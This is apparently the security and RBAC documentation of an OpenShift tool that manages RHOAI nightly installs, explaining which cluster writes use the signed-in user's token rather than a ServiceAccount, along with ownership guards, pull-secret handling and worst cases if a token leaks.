The ServiceAccount gains nothing: `deploy/template.yaml` is unchanged (`TestTemplateRBACCoversEveryServiceAccountCall`, `rbacUserTokenReads`). The component (`aiHub` or `modelregistry`) is turned on through [Feature prerequisites](#feature-prerequisites). Clean up turns it back only on the user's explicit tick (the dialog says that `aiHub` also removes the Model Catalog), only under that section's conditions, and only when listing the ModelRegistries in the namespace the DataScienceCluster names shows none left (one being deleted still counts until it is gone: its finalizer needs the operator); a list that fails, or no namespace, keeps it on (`TestRestoreComponents_ModelRegistryComponent`). That list is made with the user's token in the Clean up check only, not in `dsc.ComponentUsers`, which the ServiceAccount's reads reach.

### Feature prerequisites

The Pipelines, MLflow, Model registry, Models and Playground tabs set up what they need on the cluster after one confirmation that lists every change (`FeaturePrerequisites.setupPlan`), with every read made and every write dry-run on the server before the first write; a read that fails changes nothing (`TestPrerequisites_ReadFailuresChangeNothing`). The changes: DataScienceCluster components set to `Managed` (`aipipelines`, `mlflowoperator`, `aiHub` or `modelregistry`, `kserve`, `ogx`, `dashboard`), each under its own field manager (`rhoai-nightly-updater-dsc-<component>`) and recorded with its value before (snapshot ConfigMap key `prerequisites`); for Models, the cert-manager Operator for Red Hat OpenShift exactly as odh-gitops installs it (Namespace and OperatorGroup `cert-manager-operator`, Subscription `openshift-cert-manager-operator` from `redhat-operators`, default channel, automatic approval, no `spec.config`: no AWS role ARN, RHOAI's issuers need none). A DataScienceCluster that Argo CD manages is refused; an installed or pending cert-manager is used as it is, wherever it is; one running without OLM is refused (two cert-managers would fight). Clean up turns a component back only while the tool's manager still owns the field, Argo CD does not manage the DataScienceCluster and nothing on the cluster uses the component (pipeline servers, MLflow, model registries in the registries namespace, InferenceServices and LLMInferenceServices, playground servers; a list that fails keeps it `Managed`). The ownership check holds until someone *changes* the field: the API server moves a field to another manager only when its value changes (an update to the same value, or an apply of it, leaves it owned or shared), so someone who set the component to `Managed` again is not noticed, and the in-use check is then the safeguard that remains (the Clean up dialog says so). Each write carries the `resourceVersion` of the read its checks were made on; when the DataScienceCluster changed meanwhile, it is read again and every check runs again (`TestRestoreComponents`). Operators are never removed.

| Rule | What it allows | Worst case if the SA token leaks | Why nothing narrower works |
|---|---|---|---|
| Subscriptions `list` (cluster-wide) | find a Subscription of an operator's package in any namespace, as RHOAI's KServe does (odh-platform-utilities `OperatorPackageRequested`), so a pending install elsewhere is waited for instead of installed a second time; follow an adopted Subscription whose name is not one the tool may `get` | read every Subscription: package, channel, catalog and `spec.config` (env, resources, node selectors). No new information class: the SA already lists every Deployment, which carries the env OLM copies from `spec.config`, and every CSV | the package's Subscription can be in any namespace under any name; read-only, no `watch` |

Writes: the components with the user's token (DataScienceCluster `patch`), and cert-manager's Namespace, OperatorGroup and Subscription likewise. Reads: its CSV, the served `cert-manager.io` group and a `cert-manager` Deployment (CSV `list`, discovery, Deployment `list`); the in-use checks list DataSciencePipelinesApplications, InferenceServices, LLMInferenceServices and OGXServers and get MLflow `mlflow`.

```bash
oc auth can-i list subscriptions.operators.coreos.com --all-namespaces --as=$SA                             # yes
oc auth can-i patch subscriptions.operators.coreos.com/openshift-cert-manager-operator -n cert-manager-operator --as=$SA # no
oc auth can-i delete subscriptions.operators.coreos.com/openshift-cert-manager-operator -n cert-manager-operator --as=$SA # no
```

### The nodes' pull secret on a self-managed cluster

The app reads Infrastructure `cluster` (`config.openshift.io`; `get` by name, the cluster-scoped singleton, full profile only) for `status.controlPlaneTopology` (`External` is a hosted control plane, where the nodes use `kube-system/additional-pull-secret`; anything else is self-managed, where they use `openshift-config/pull-secret`), once per hour per cluster. What the object holds: the cluster's platform type and status, infrastructure name, API server URLs, the topology fields and cloud platform identifiers (region, resource tags); no credentials, and nothing a cluster reader does not already see. A leaked ServiceAccount token can read that object, not change it. Deliberately **not** granted: any access to `openshift-config/pull-secret`, which holds every registry credential of the cluster. The app shows an `oc` command that a cluster-admin runs with their own credentials instead ([QUICKSTART](docs/QUICKSTART.md#self-managed-openshift-the-cluster-pull-secret)); it reads the token at a silent prompt, passes it to `jq` through the environment (not `ps`-visible arguments), writes nothing to disk, changes only the `quay.io/rhoai` entry, and keeps the Secret's `resourceVersion` so a concurrent change makes it fail with a conflict. **Check that the nodes can pull** is a gated, locked change like any other, with the user's token: a temporary, labelled verification catalog in `openshift-marketplace` (the same as Update's check, removed at the end) and a read of its pods. The gitops profile does not read the topology, so `deploy/rbac-gitops.yaml` has no such rule. `oc auth can-i get infrastructures.config.openshift.io/cluster --as=$SA` answers `yes`; `oc auth can-i update infrastructures.config.openshift.io/cluster --as=$SA` and `oc auth can-i get secret/pull-secret -n openshift-config --as=$SA` answer `no`.

**One-click setup (4.0.0): user-token writes, no new ServiceAccount write rule.** On a cluster whose control plane runs on the cluster, the Status page creates or deletes ImageDigestMirrorSet `rhoai-quay-mirror` and adds or removes the `quay.io/rhoai` entry of `openshift-config/pull-secret` ([CLUSTER_CHANGES §3](docs/CLUSTER_CHANGES.md#3-one-time-cluster-setup)). Every request of those actions, reads included, carries the signed-in user's own token (`POST /api/setup/nodes/plan` and `/stream`, both `withMutationAuth`: cluster-admin gate, session check, cluster lock); `rbac_sa_split_test.go` keeps them out of the ServiceAccount's reach, and `deploy/template.yaml` grants nothing for them (its one new rule, `list` of ImageContentSourcePolicies, is for the status: [Reading ImageContentSourcePolicies](#reading-imagecontentsourcepolicies-400); `oc auth can-i create imagedigestmirrorsets.config.openshift.io --as=$SA` and `oc auth can-i patch secret/pull-secret -n openshift-config --as=$SA` answer `no`). The API server checks each request against the user's RBAC and admission, and its audit log names the user. The token copied to the nodes is the one the app already holds in `kube-system/additional-pull-secret`, read server-side with the user's token, checked with Quay, and never sent to the browser; the plan and every message carry no credential, and an API error that quotes the object (a webhook or validation message) is redacted of every credential of both Secrets (`TestPullSecretErrorsAreRedacted`). Fail-closed checks before any write: the control plane is read again with the user's token (a hosted or unreadable topology refuses, and an unreadable list of the managed-cluster webhooks refuses the pull secret actions, since ROSA Classic or OSD cannot be ruled out), the mirror is not created where it would take pulls away from a mirror of a parent scope or clash with a `NeverContactSource` entry (the Machine Config Operator would refuse the whole mirror configuration), the cluster pull secret must be readable with a non-empty registry list and not kept by External Secrets, a server-side dry run of the exact write goes first, and the write carries the version the user reviewed. Platform detection uses the ServiceAccount's existing `list` of ValidatingWebhookConfigurations (the stale-webhook check's rule): webhooks named `*.managed.openshift.io` are Red Hat SRE's (openshift/managed-cluster-validating-webhooks, synced to ROSA Classic and OpenShift Dedicated); nothing new is read. Worst case of a misuse by a signed-in cluster-admin: the cluster's nodes get or lose the `quay.io/rhoai` login, or the `registry.redhat.io/rhoai` mirror, which that user could already do with `oc`. Sources and node impact: [docs/research/node-setup.md](docs/research/node-setup.md).

**Ownership rule: the tool never removes or overwrites a setup it did not make (4.0.0).** A cluster's provisioner may have put its own `quay.io/rhoai` entry into `openshift-config/pull-secret` (and its own ImageDigestMirrorSet; live case: a self-managed OpenShift 4.22 sandbox with IDMS `quay-registry`). The first build of the one-click setup removed any `quay.io/rhoai` entry, and replaced an existing one's token, which would have destroyed a credential the tool cannot restore. Nothing in a Docker config entry says who wrote it, and the Secret's managedFields name only the last writer of the whole `.dockerconfigjson`, so the tool keeps its own record: after Add writes the entry it applies key `nodePullSecretEntry` of ConfigMap `rhoai-nightly-updater-snapshot` (its own namespace, field manager `rhoai-nightly-updater-node-pull-secret`, the existing `patch` grant on that ConfigMap; no RBAC changed) with the Secret's UID, the key written, a SHA-256 of a random per-record salt followed by the auth value, the time and the user. The token is never in the record, a log line, the plan, a step event or a result (`assertNoCredentials` in `node_pull_ownership_test.go` checks all of them and the tool's ConfigMaps and the requests sent to them). The salt defeats precomputed tables, not guessing: anyone who can read that ConfigMap could test guesses of the token offline, which is hopeless for a Quay robot token but not for a weak personal password, so save a robot token. Remove takes the entry out only when the record exists, the Secret's UID is the recorded one and the entry's `auth` hashes to the recorded hash; anything else (no record, a Secret made again, a token changed since, the entry gone and another there) is refused before any request, with how to remove it by hand, and an unreadable record refuses Add and Remove alike (`TestPullSecretRemoveRefusesAnEntryItDidNotAdd`, `TestPullSecretOwnershipFailsClosedWithoutTheRecord`). Add leaves an entry it did not add: nothing to do when it already has the updater's token (not claimed), refused (`foreign_entry`) with another token, and replaced only with the request's `replaceExisting`, which the UI sends only after a checkbox that says the old token is not kept and cannot be restored (`TestPullSecretAddLeavesAnEntryItDidNotAdd`, `TestPullSecretAddReplacesAForeignEntryOnlyWhenAcknowledged`); the tool's own entry with an earlier token is updated without asking. The status shows the record (read with the ServiceAccount from its own ConfigMap), so the Remove button appears only for the tool's entry. Any ImageDigestMirrorSet that redirects `registry.redhat.io/rhoai` counts as the mirror, so Create adds no second one, and only `rhoai-quay-mirror` with exactly its one mapping is deleted (`TestNodeSetupOnAClusterProvisionedBySomeoneElse`, with the live `quay-registry` object). Residual: a record matches by content, so if someone removes the tool's entry by hand and later puts back the very same token under the same key in the same Secret, the tool counts it as its own again. The CLI removal command under Do it yourself instead removes whatever entry is there; it says so and runs only after the user types `yes`.

### The internal registry's copy of the pull secret (ROSA HCP, 5.0.0)

**Why.** RHOAI's workbench images are ImageStream tags in its applications namespace, and a workbench pulls them through the internal registry (`image-registry.openshift-image-registry.svc:5000/<namespace>/<stream>:<tag>`, as the dashboard writes it; the notebook webhook leaves internal-registry images alone). The registry's pull-through follows the cluster's image mirror (`registry.redhat.io/rhoai` to `quay.io/rhoai`) and logs in with the cluster's global pull secret (`openshift-image-registry/installation-pull-secrets`) and the `kubernetes.io/dockerconfigjson` Secrets of the ImageStream's own namespace, leaving out any Secret annotated `openshift.io/image.excludeImageSecret=true` (sources cited by the 2026-11-24 security review: openshift/image-registry `imagestream.go` `GetSecrets`, openshift-apiserver `imagesecret` `rest.go`; not re-read for this note). On a hosted control plane the tool's token is in `kube-system/additional-pull-secret`, which HyperShift gives to the nodes only, so no workbench could start (live finding F3, 2026-11-24, on one ROSA HCP nightly cluster; a Secret holding the same entry in the applications namespace made the pull work). A self-managed cluster's registry uses `openshift-config/pull-secret`, which the nodes' one-click setup writes, so nothing is copied there.

**What is copied, and where.** Secret `rhoai-nightly-updater-pull`, type `kubernetes.io/dockerconfigjson`, labelled `app.kubernetes.io/managed-by=rhoai-nightly-updater`, in the applications namespace the DSCInitialization names (`spec.applicationsNamespace`, read at run time; no namespace is assumed, and no DSCInitialization means no copy). It holds **only** the entry of `additional-pull-secret` whose key is exactly `quay.io/rhoai` (scheme or trailing slash aside; `ExactQuayRHOAIAuth`). A generic `quay.io` login or a repository-scoped `quay.io/rhoai/<repo>` entry, which the tool's own Quay lookups may fall back to, is never copied: the tool writes nothing and says "add the quay.io/rhoai token under Pull secret" (`TestRegistryPullCopy_OnlyAnExactQuayRHOAIEntry`).

**Who can read it.** Verified live on 2026-11-24 on the one ROSA HCP nightly cluster of finding F3, for two identities: `oc auth can-i get secrets -n redhat-ods-applications` answers `no` for a normal user and for a member of `rhods-admins` who is not a cluster-admin. RHOAI's own roles grant no Secret reads there that we know of, but other clusters, releases or custom RoleBindings were not checked; whoever can read Secrets in that namespace can read the token.

**When it is written (only on a hosted control plane, only with the signed-in user's token).** When the pull secret is saved (`POST /api/setup/pull-secret`), with **Copy for the internal registry** (`POST /api/setup/pull-secret/registry-copy`), after a successful Update (also the full profile's Argo CD path), Reinstall or Refresh, after creating the DataScienceCluster, and when a workbench is set up (before the create, and also when it is already set up; this covers the recipe's Workbench step). On a fresh cluster the pull secret is saved before RHOAI exists, so the later flows or the button make the copy; an applications namespace that does not exist yet is said plainly, not as a warning. All of them are `withMutationAuth` paths, and every write function refuses a client without the user's token before any request (`TestRegistryPullCopy_RefusesTheServiceAccount`). A copy that already holds the token is not written again; the tool's copy with another token is replaced with a `PUT` of the object as read (labels, annotations, finalizers, owner references kept) with its `resourceVersion`, so a concurrent change fails with a conflict; after a conflict the copy is read once more and accepted if it now holds exactly the token. A problem with the copy is a warning in the operation's logs and message, never the operation's failure (the button's own operation fails with it).

**Ownership, fail closed.** A Secret of that name without the tool's label is never updated or removed; the message says so and how to remove it by hand. A copy being deleted, of another type, or annotated `openshift.io/image.excludeImageSecret=true` is not changed either, and the status does not call it current. The label is on the object itself, so it is as trustworthy as the RBAC on Secrets in that namespace: only `get` was checked live (above); who may create or update Secrets there was not checked. An unreadable control plane writes nothing and warns.

**No credential in any message.** Every error is redacted of the new credential (as given, decoded, the password, the config as JSON and base64) and, once the copy is read, of every credential form the copy held, because an admission webhook that refuses an update may quote the old object too (`TestRegistryPullCopy_RejectedUpdateIsRedacted`).

**Status.** `GET /api/status` (admin-only) reads the copy and the exact `quay.io/rhoai` entry of `additional-pull-secret` (the one Copy writes; a generic login is never "can pull") with the signed-in cluster-admin's own client (`attachSignedInUser`; `registry.ReadRegistryPullCopy` refuses any other client and is listed in `rbacCallsNotUsingTheSAToken`), only on a hosted control plane, and returns booleans (exists, the tool's, holds the current token and is usable), the namespace and a reason, never the credential. The gitops profile reads no Secret and shows nothing; [GITOPS](docs/GITOPS.md#workbench-images-on-rosa-hcp) has the `oc` command for it.

**Lifecycle.** **Remove the internal registry's copy** (`POST /api/setup/pull-secret/registry-copy/remove`, after a confirmation) deletes only the tool's copy, with the UID and resourceVersion it checked as preconditions; after a conflict it reads the Secret once more and refuses one that is no longer the tool's. The tool never removes `kube-system/additional-pull-secret`, so nothing else removes the copy; it also goes with the applications namespace. By hand: `oc delete secret rhoai-nightly-updater-pull -n "$(oc get dscinitializations -o jsonpath='{.items[0].spec.applicationsNamespace}')"`.

**RBAC.** User-token requests only; `deploy/template.yaml` and `deploy/rbac-gitops.yaml` are unchanged, and the ServiceAccount cannot read or write the copy: the template names no rule for it (`TestTemplateRBACCoversEveryServiceAccountCall`); on a cluster, `oc auth can-i get secret/rhoai-nightly-updater-pull -n <applications namespace> --as=$SA` should answer `no` (not yet checked live). New lines in `pkg/cluster/testdata/rbac-requests.golden`: `get`, `update` and `delete` of `/secrets ns=* name=rhoai-nightly-updater-pull`; `create /secrets ns=*` (unnamed, a create's path has no name) and `get` of `kube-system/additional-pull-secret` were already there and only count more call sites. Worst case of a misuse by a signed-in cluster-admin: the quay.io/rhoai token in one more Secret that only cluster-admins can read (on the cluster checked), or that Secret deleted, both of which that user could already do with `oc`.

### Environment recipes (5.0.0)

A recipe run (`POST /api/recipes/run`, admin-only, refused in the gitops profile) sets up an RHOAI build, the DataScienceCluster, a project, Pipelines and MLflow in one cluster operation, by calling the same functions as the app's buttons. Owner decisions of 2026-11-21:

- **The user's token is held for the whole run.** The run keeps the token of the request that started it in the process's memory until its last step ends (hours instead of at most 21 minutes). It is never written (not in the run record, the lease, the marker, a log line or an activity entry) and never sent to the browser. It sits only inside the mutation wrapper's own closures (`statusWriter.gate`, the check every change passes first), so the runner itself never holds or passes the token.
- **It is checked again before every step**, with the gate every change passes: the sign-in can carry a change (`sessionProblem`: not expired or revoked, scope `user:full`, not expiring before the step's 15-minute deadline and its restore) and the user is still a cluster-admin (`mutationPermission`). Otherwise the run stops before the step with `sign_in_again` (or `session_expired`) or `forbidden` and says "sign in again, then Resume". A revocation during a step fails that step with a 401 (`sign_in_ended`), and the run stops.
- **Logging out does not stop a run.** Log out clears the cookie, not the token ([Sessions and CSRF](#sessions-and-csrf)). **Stop after this step** (`POST /api/recipes/stop`) does, as does revoking the sign-in ([Revoking a sign-in](#revoking-a-sign-in)), which stops it at the next step.
- **Each step has the budget of one operation** (its own `OperationDeadline`), a copy of the user's client, and a ServiceAccount client for the app's records made with the ServiceAccount token read again (it rotates). The run holds the cluster lock and the lease from start to end, so teammates and the MaaS prune job wait (409 `cluster_busy` names it).
- **Restarts:** a draining pod finishes the running step and stops the run (`stopped: restart`), also when the drain began while the run was between its checks and the step (it checks again right before the step's deadline starts); after a SIGKILL the run record says running with a dead boot ID and the run is reported interrupted. Nothing resumes by itself.
- **The run record is not trusted for what it decides.** It is the updater's own ConfigMap, which a leaked ServiceAccount token could write. Resume validates the recorded recipe again, takes the project from the cluster and the record of the projects recipes created (never from the run record), and installs the pinned build only when it is a digest-pinned image of `quay.io/rhoai/rhoai-fbc-fragment` that the recipe's own build choice allows (its image, its line, or a nightly line), else it refuses (`TestRecipePlan_TamperedPinnedBuildRefuses`). A write of an earlier attempt of a run never overwrites the attempt that resumed it.
- **The ServiceAccount token of the lock.** The lease heartbeat and the marker clear make their client with the ServiceAccount token as it is at each write (the kubelet rotates the file; OpenShift extends a mounted token to one year, so an old one would still work, openshift-docs `modules/bound-sa-tokens-configuring.adoc`).

- **A recipe's Clean up removes only what is the run's alone, read from the cluster.** That is the project the recipe created (the guards below; deleting the namespace takes its pipeline server with it) and the DataScienceCluster components the run turned on, while they are still in their own on state (`Unmanaged` for `kueue`, `Managed` for the others), this tool's field and in the record of what Set up turned on, and still the enablement the run turned on (its ID in that record, named in the Clean up request and checked again under the cluster lock) (each stays on while something uses it). Nothing on the cluster records who created an object, so a mark saying a run created one could be forged; the S3 storage, MLflow (shared by the cluster) and a pipeline server in an existing project are therefore never deleted by a recipe's Clean up. The worst case is a leftover, which Clean up everything on the Environment page removes under its own checks.

**The recipe project: a user-token namespace delete of a name the user chose (security audit).** With `project.mode: create` the run creates the project with the user's token, as the dashboard's Create project does (a ProjectRequest, then a merge patch of the label `opendatahub.io/dashboard=true`, plus the tool's label and the annotation `rhoai-nightly-updater/recipe`), and records its name and UID in key `recipeProject` of ConfigMap `rhoai-nightly-updater-snapshot` (the ServiceAccount's existing `patch` on that ConfigMap). Clean up may delete it (`recipeProject` in the clean-up request), with the user's token, only when all of these hold, checked before any part of the clean-up runs and again just before the delete:

| Guard | What it prevents |
|---|---|
| A name a recipe may create: a DNS-1123 label, not `default`, `openshift*`, `kube-*`, `redhat-*`, `seaweedfs`, the updater's own namespace, the operator's, or the applications or monitoring namespace the DSCInitialization names (a DSCInitialization that cannot be read refuses) | a recipe creating (and so later deleting) a platform namespace |
| The namespace's UID is the one the ProjectRequest answered with and the recipe recorded; the label patch tests it. The clean-up request names the UID of the project the user reviewed (`recipeProjectUIDs`, required; a request without it is refused with 400): the record and the namespace must both still have it, and the delete has it and the resourceVersion of the last check as preconditions (`kube.DeleteWithPreconditions`) | labelling or deleting a namespace someone made again under the name, or changed since the check; deleting a project a recipe made again after the user opened the dialog (the record then agrees with the new namespace) |
| It still carries the tool's label and the annotation `rhoai-nightly-updater/recipe`, which the ServiceAccount (which can write the record) cannot set on a namespace | deleting a project whose label someone took off to keep it, or a tool-labelled namespace a forged record names |
| Everything the tool can list in it that it did not create (Notebooks, InferenceServices, LLMInferenceServices, PersistentVolumeClaims, pods; the tool's pipeline server, the tool's models, the recipe's playground and what they own are left out) is confirmed by name in the request (`confirmProjectContents`); a list that fails refuses. An object is the tool's this way only when every one of its owner references (matched by kind and UID, in the project, at most three references: Pod, ReplicaSet, Deployment, or Pod, Job) leads to the pipeline server, a tool model (an LLMInferenceService with the tool's label), the playground's OGXServer when its UID is the one this tool recorded, or the RayCluster or RayJob the distributed workloads record holds for this project; as the garbage collector keeps an object while any owner is there, one other owner keeps it listed, and an owner that cannot be found also keeps it listed (stricter than the collector, which treats such a reference as absent). This check comes after the label and deletion exclusions, which it does not narrow. The Ray roots are the UIDs in the tool's own record (key `kueue` of ConfigMap `rhoai-nightly-updater-snapshot` in its namespace, which only the ServiceAccount writes), taken without checking that the Ray objects still exist or carry the tool's label: there is no read of Ray objects to check with, and none was added. One Job is read, at most once per check: `nightly-rayjob`, the submitter Job KubeRay names after the tool's RayJob (red-hat-data-services/kuberay rhoai-3.7-ea.1 `ray-operator/controllers/ray/rayjob_controller.go` createNewK8sJob: the Job's name is `rayJobInstance.Name`), and only when a pod KubeRay labels as that RayJob's submitter (`ray.io/originated-from-crd=RayJob`, `ray.io/originated-from-cr-name=nightly-rayjob`), and not otherwise left out, names it; a pod whose Job reference names anything else stays listed without a read. A reference to a Job counts only with the Job's name as well as its kind and UID. The head and worker pods of the RayCluster KubeRay makes for the RayJob sample are not recognised (that would need `get` on `ray.io/rayclusters`) and are listed while the job runs. A read of the records, the OGXServer, the ReplicaSets, the Deployments or such a Job that fails refuses. The check just before the delete also counts the owners (kind and UID: the roots and the ReplicaSets, Deployments and Jobs leading to one) that the check before any part of the same clean-up found, so dependents of a playground, pipeline server, model or Ray sample an earlier part deleted, which the garbage collector has not removed yet, are not asked about; these come only from that check in the server, never from the request, and an object made again under the same name has another UID. That check keeps the first one's verdict on those owners even if their labels or the records change in between, and a pod created between the checks with a reference to one of them is not listed: whoever can set that reference can delete the pod anyway, and the garbage collector removes it with that owner. What leaves an object out is a label or field an editor of the project can set (the tool's label, `dspa=<name>`, KServe's `app.kubernetes.io/part-of`/`name` labels on a pod of the tool's model, an owner reference): these are trusted, as whoever forges one can already delete that object, so a forgery only lets the project's deletion take the forger's own object unlisted. Other kinds (Secrets, ConfigMaps, Deployments, ...) are not listed and go with the project | deleting a workbench or a volume the user forgot about |

Worst case of a misuse by a signed-in cluster-admin: the deletion of a project a recipe created, with what it holds after confirming it; that user could already delete any namespace with `oc`. A project that exists and was not created by a recipe is refused ("Choose another name, or set `project.mode: existing`"), and `project.mode: existing` owns nothing. **RBAC:** every request above carries the user's token inside a `withMutationAuth` path; the ServiceAccount gains nothing and `deploy/template.yaml` is unchanged. New user-token requests in `pkg/cluster/testdata/rbac-requests.golden`: `create project.openshift.io/projectrequests`, `patch` and `delete` of `/namespaces name=*`, `get` of OdhDashboardConfig `odh-dashboard-config` (the dashboard's Kueue setting, read as its Create project does), and `list` of Notebooks, InferenceServices and LLMInferenceServices in `ns=*` (pods and PVCs were listed already). Recognising the tool's pieces (5.0.0) reads with the same user token the ReplicaSets and Deployments of the project, the OGXServer `lsd-genai-playground` and, while the tool's RayJob is a root, the Job of its submitter pod (by name; no Ray object is read), and the records (playgrounds, Kueue setup) with the ServiceAccount's existing read of the snapshot ConfigMap: only the counts of existing golden rows change (`list apps/replicasets ns=*`, `list apps/deployments ns=*`, `get ogx.io/ogxservers ns=* name=lsd-genai-playground`, `get batch/jobs ns=* name=*`, and the `/namespaces` rows), and `deploy/template.yaml` is unchanged. `TestMutationPathsActWithTheUsersToken` and `TestServiceAccountWritesAreNamedOrItsOwnRecords` are unchanged and pass. The run record is key `recipeRun` of ConfigMap `rhoai-nightly-updater-operation` (the existing `patch`), at most 32 KiB, written when a step starts and ends.

### The DataScienceCluster

The Components page's changes (one component, Fix, the soft reset) and the hard reset run with the user's token; the ServiceAccount only reads the DataScienceCluster, and `TestHardResetDeleteRule` fails if `deploy/template.yaml` or `deploy/rbac-gitops.yaml` grants it `delete`. The hard reset deletes the one DSC with a UID precondition (the one the user reviewed, after typing its name), after a server-side dry run of the new spec against the live DSC, so a spec the CRD or the operator's webhook refuses never costs the DSC, and records the object it creates so **Finish the hard reset** can create exactly that object after a failure or a restart (the same gates and lock; it only creates while no DSC exists). Before the delete it refuses when the garbage collector would delete a namespace with the DSC (no solid owner keeps it, and one leads to an `opendatahub.io` object or cannot be read). That check reads the namespaces and their owners, which can be of any cluster-scoped kind (ACM's AppliedManifestWorks on a spoke), with the signed-in cluster-admin's own token, in the plan (`withAdminRead` gives the plan's ServiceAccount client the user's client for it) and in the reset; the ServiceAccount is not granted those reads and must not be (reading every kind cluster-wide), and without the user's token the check refuses. The delete uses `propagationPolicy: Background` (Foreground would cascade foreground deletion into the workloads the module CRs own), and the reset creates the new DSC only once the old one is gone, no module CR it owned is left, their module operators are removed and the Platform reports no module pending deletion. What it does step by step, and how to recover: [RUNBOOK §11.9](RUNBOOK.md#119-change-or-reset-the-datasciencecluster). Worst case of a hard reset by mistake: every RHOAI component is torn down cluster-wide until a DSC exists again (user resources such as notebooks and pipeline servers survive, but stop working); whoever may delete the DSC could already set every component to Removed.

Setting a component to Removed (one component, Fix, a reset that removes it, Diagnostics' disable fix, the version-matched repair) is refused while a CRD whose conversion webhook that component's Service serves still has objects: the webhook's Service goes with the component, the CRD does not. That check lists each such CRD's objects cluster-wide (`?limit=20`, at the CRD's storage version) with the signed-in cluster-admin's own token, in the plan (`withAdminRead`'s user client, as for the namespace guard), in the Components page's repair preview (`GET /api/components`, full profile: the handler attaches the user's client after the route's one admin check, `adminOnly`; the gitops profile never acts with the user's token, whose scopes `user:info user:check-access` cannot list, so its preview refuses) and in the change; the CRDs are of any API group (`mcpservers.mcp.x-k8s.io`), so the ServiceAccount is not granted them and gains nothing (5.0.0; `rbacCallsNotUsingTheSAToken` classifies the call). Without the user's token, or when a list fails, it refuses (fail closed); it never takes "could not list" for "none". Until 5.0.0 the check refused every such removal, because the ServiceAccount could not list the objects.

## History

The RBAC audits written while the ServiceAccount made every change (template revisions 4 to 7 before 4.0.0) are kept, as they were written, in [docs/SECURITY_HISTORY.md](docs/SECURITY_HISTORY.md). They are not updated; their still-true statements about how features behave are in the [per-feature notes](#per-feature-notes) above.

Before 4.0.0 (template revision 7 as first written): 130 rules with 123 write verb tuples, 42 of them unnamed, including cluster-wide `create` of Deployments, Jobs, LLMInferenceServices, OGXServers, CloudNativePG Clusters, Secrets, ServiceAccounts, Roles and RoleBindings: a leaked SA token had cluster-admin reach (a pod it creates can run as any ServiceAccount of its namespace and mount any Secret there). After: about 60 rules; writes are the app's own ConfigMaps (create, update, patch), and by name only, 8 verbs on 5 MaaS object names and 2 objects in `openshift-ingress`.

<a id="audits-of-earlier-template-revisions"></a>
<a id="worst-case-cluster-wide-workload-create"></a>
Old links to "Audits of earlier template revisions" and "Worst case: cluster-wide workload create" land here. **Worst case: cluster-wide workload create** (before 4.0.0): a pod spec may name any ServiceAccount of its namespace and mount any Secret there, and admission does not check that the creator could read or use them, so the ServiceAccount's `create` on workloads in any namespace gave a leaked token cluster-admin reach ([the full text](docs/SECURITY_HISTORY.md#worst-case-cluster-wide-workload-create)). Since 4.0.0 the ServiceAccount has none of those rules; the same reach now belongs to a signed-in cluster-admin's own token, which is why the session cookie and its secret are protected as the [threat model](#threat-model-of-the-user-token-400) says.
